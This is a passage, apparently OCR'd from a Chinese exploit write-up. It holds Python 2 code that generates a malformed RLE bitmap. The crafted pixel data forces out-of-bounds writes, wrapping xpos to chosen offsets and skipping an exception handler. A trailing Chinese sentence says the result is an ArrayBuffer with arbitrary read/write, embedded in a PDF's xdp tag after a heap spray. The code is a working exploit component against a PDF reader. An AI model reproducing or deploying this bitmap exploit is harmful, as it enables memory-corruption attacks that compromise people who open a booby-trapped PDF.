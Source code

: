 ```
        data_size,
        0x00000000,
        0x00000000,
        CLR_USED,
        0x00000000)

def get_bitmap_info_colors():
    # B, G, R, Reserved
    rgb_quad = '\x00\x00\xFF\x00'
    return rgb_quad * CLR_USED

def get_bitmap_data():

    # set xpos to 0xFFFFFD02
    data = '\x00\x02\xFF\x00' * (0xFFFFFD02 / 0xFF)
    # set xpos to 0xFFFFFD78
    data += '\x00\x02\x76\x00'

    # 0x4 bytes of 0xFF
    data += '\x08\xFF'

    # mark end of bitmap to skip CxxThrowException
    data += '\x00\x01'

    return data

def generate_bitmap(filepath):
    data = get_bitmap_data()
    data_size = len(data)

    bmi_header = get_bitmap_info_header(data_size)
    bmi_colors = get_bitmap_info_colors()

    bmf_header_size = 0x0E
    bits_offset = bmf_header_size + len(bmi_header) + len(bmi_colors)
    file_size = bits_offset + data_size
    bmf_header = get_bitmap_file_header(file_size, bits_offset)
    with open(filepath, 'wb') as f:
        f.write(bmf_header)
        f.write(bmi_header)
        f.write(bmi_colors)
        f.write(data)

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print 'Usage: %s &lt;output.bmp&gt;' % os.path.basename(sys.argv[0])
        sys.exit(1)
    generate_bitmap(sys.argv[1])
```

当完成了这一步的修改以后，我们就已经拥有了一个具有任意地址读写的ArrayBuffer对象了，与前面的堆喷布局同理，在pdf的xdp标签里嵌入
